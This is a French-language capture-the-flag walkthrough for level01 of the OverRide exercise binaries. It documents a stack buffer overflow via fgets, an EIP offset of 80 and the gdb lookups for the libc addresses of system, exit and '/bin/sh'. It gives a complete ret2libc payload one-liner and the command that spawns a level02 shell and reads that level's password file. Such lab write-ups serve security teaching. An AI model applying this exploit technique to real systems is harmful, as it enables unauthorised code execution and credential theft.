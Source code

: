# Walkthrough — Level01 (OverRide)

## 🎯 Objectif

Exploiter une vulnérabilité de type **buffer overflow** dans `level01` pour exécuter `system("/bin/sh")` via un **ret2libc**, et obtenir un shell sous `level02`.

---

## 🔍 Étapes d’analyse

### 1. Lancement du binaire

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: coucou
verifying username....
nope, incorrect username...
```

---

### 2. Analyse de `verify_user_name`

Le code assembleur montre une comparaison manuelle entre `a_user_name` et `"dat_wil"` sur 7 caractères.

✅ Le bon login est donc :

```
dat_wil
```

---

### 3. Analyse de `verify_user_pass`

La fonction compare le mot de passe avec `"admin"` sur 5 caractères mais le `main()` contient :

```c
if ((valid == 0) || (valid != 0)) {
    puts("nope, incorrect password...");
}
```

➡️ Même le bon mot de passe est **rejeté systématiquement**.

---

### 4. Analyse de la faille (overflow)

Dans `main` :

```c
char local_54[64];
fgets(local_54, 100, stdin); // 💥 buffer overflow
```

➡️ Le buffer de 64 octets est rempli avec jusqu’à 100 octets ➜ **débordement de pile**.

---

### 5. Trouver l’offset pour écraser EIP


En entrant 100 caractères comme mot de passe, on déclenche un crash.

Avec un pattern ou un script, on trouve :

```
./level01
Enter Username: dat_wil
Enter Password: AAAAAAAAAAA... (80 caractères)
```


Offset = 80
```

---

### 6. Ret2libc — Préparation de l’exploitation

Rechercher les adresses :

#### `/bin/sh`
```gdb
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
→ 0xf7f897ec
```

#### `system`
```gdb
info function system
→ 0xf7e6aed0
```

#### `exit`
```gdb
info function exit
→ 0xf7e5eb70
```

---

### 7. Construction du payload

Forme du payload :

```
dat_wil\n
[A * 80]
[adresse de system()]
[adresse de exit()]
[adresse de "/bin/sh"]
```

Exemple :

```bash
python -c 'print("dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")' > /tmp/payload
```

---

### 8. Exploitation finale

```bash
cat /tmp/payload - | ./level01
$ whoami
level02
$ cat /home/users/level02/.pass
<le mot de passe du level02>
```

---

## ✅ Résumé

| Élément               | Valeur                      |
|------------------------|-----------------------------|
| Faille                 | Buffer overflow (stack)     |
| Buffer vulnérable      | `local_54` (64 octets)      |
| Taille lue             | 100 octets (`fgets`)        |
| Offset EIP             | 80                          |
| Technique              | ret2libc                    |
| Composants             | `system`, `exit`, `"/bin/sh"` |
| Élément NON vulnérable | `a_user_name` (global)      |
